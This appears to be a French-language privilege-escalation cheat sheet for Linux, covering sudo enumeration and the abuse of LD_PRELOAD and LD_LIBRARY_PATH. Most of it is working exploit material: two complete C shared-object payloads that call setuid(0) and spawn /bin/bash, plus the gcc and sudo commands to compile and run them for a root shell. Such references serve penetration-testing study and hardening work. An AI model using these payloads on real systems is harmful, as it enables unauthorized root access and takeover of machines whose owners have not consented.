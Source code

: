 Demarrer un programme avec un autre utilisateur:

```sh
sudo -u <username> <program>
```

Lister tout les commandes que votre utilisateur peut exécuter à l'aide de `sudo`

```sh
sudo -l
```

---
### Tirer parti de LD_PRELOAD

Les étapes de ce vecteur d’élévation de privilèges peuvent être résumées comme suit :

1. Recherchez LD_PRELOAD (avec l'option `env_keep`)
2. Écrivez un code C simple compilé sous forme de fichier d'objet de partage (extension .so)
3. Exécutez le programme avec les droits sudo et l'option LD_PRELOAD pointant vers notre fichier .so

Code C:

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
void _init()
{
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/bash");
}
```

Exploitation:

```sh
gcc -fPIC -shared -nostartfiles -o shell.so shell.c 
```

```sh
sudo LD_PRELOAD=/FULL_PATH_TO/shell.so [PROGRAM_NAME]
```

---
### Tirer parti de LD_LIBRARY_PATH

Les étapes de ce vecteur d’élévation de privilèges peuvent être résumées comme suit :

1. Exécutez `ldd` sur le fichier programme pour voir quelles bibliothèques partagées sont utilisées par le programme
2. Créez un objet partagé avec le même nom que l'une des bibliothèques répertoriées
3. Exécutez le programme à l'aide de sudo, tout en définissant la variable d'environnement `LD_LIBRARY_PATH` sur` /tmp` (où nous produisons l'objet partagé compilé)

Code C:

```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
	unsetenv("LD_LIBRARY_PATH");
	setresuid(0,0,0);
	system("/bin/bash");
}
```

Exploitation:

```sh
ldd [PROGRAM_NAME]
```

```sh
gcc -fPIC -shared -o /tmp/[LIBRARY_NAME] shell.c
```

```sh
sudo LD_LIBRARY_PATH=/tmp [PROGRAM_NAME]
```


---
**Sources de recherche :**
- [GTFOBin](https://gtfobins.github.io/)
